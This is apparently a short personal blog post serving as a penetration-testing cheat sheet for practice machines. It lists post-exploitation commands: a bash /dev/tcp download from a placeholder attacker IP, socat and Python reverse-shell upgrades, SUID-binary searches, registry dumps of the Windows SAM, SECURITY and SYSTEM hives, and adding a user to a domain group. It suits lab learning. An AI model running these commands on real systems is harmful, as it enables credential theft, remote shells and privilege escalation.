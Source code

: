 ```yaml
---
layout: post
title: Common Tools and Commands
author: Mitchell Stein
tags:

jekyll theme

jekyll
date: 2022-03-27
tags: []
categories: [Toolkit]
toc:  true
---
```


# Tools

Find common vulnerabilities in Unix binaries

- [GTFOBins](https://gtfobins.github.io)

Crack known password hashes (ONLY USE ON PRACTICE MACHINES)

- [CrackStation](https://crackstation.net)

---

# Commands

## Post-Shell Enumeration

### linux

Find all files owned by a user in Linux, disregarding /proc and /sys files

- `find / -user <username> -ls 2>/dev/null`

Find all SUID binaries for the current user:

- `find / -type f -perm -04000 -ls 2>/dev/null`

Download files with bash

- `bash -c "cat < /dev/tcp/[Attacker IP]/[Attacker Port]" > [file]`

Upgrade reverse shell

- Using socat

  - On target: `` socat file:`tty`,raw,echo=0 tcp-listen:4444 ``
  - On attacker: `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<attackerip>:4444`

- Using Python
  - On target: `python -c 'import pty; pty.spawn("/bin/bash")'`

View neighbor computer IPs

- `ip ne`
- `"ip -br -c ne`

### Windows

Harvest SAM:

- `reg.exe save hklm\sam c:\temp\sam.save`
- `reg.exe save hklm\security c:\temp\security.save`
- `reg.exe save hklm\system c:\temp\system.save`

Add current user to group

- `net group "<group>" <username> /add /domain`

Get user/domain SID:

- `whoami /user`

